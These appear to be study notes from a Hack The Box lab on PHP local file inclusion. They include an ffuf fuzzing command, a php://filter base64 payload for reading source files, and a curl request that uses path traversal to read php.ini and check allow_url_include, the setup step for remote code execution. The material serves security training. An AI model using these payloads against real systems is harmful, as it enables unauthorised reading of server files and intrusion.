 ## Fuzzing for PHP files

```bash
thnwht@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

## Source Code Disclosure

- suppose we find config.php from fuzzing and want to read the source code of the config file 

```url
?language=php://filter/read=convert.base64-encode/resource=config
```
- then decode base-64 for the result string

# PHP Wrappers

- to execute remote commands, depend on the back-end language/framework and the vulnerable function's capabilities

## Data Wrapper

- [Data Wrapper](https://www.php.net/manual/en/wrappers.data.php) - used to include external data including PHP code
- only available to use if the `allow_url_include` setting is enable in PHP config

### Checking PHP Configurations

- ca be found at `/etc/php/X.Y/apache2/php.ini` for Apache or `/etc/php/X.Y/fpm/php.ini` for Nginx where X.Y is installed PHP version

```sh
thnwht@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

- after base 64 decode and if the configuration is on 
```sh
thnwht@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
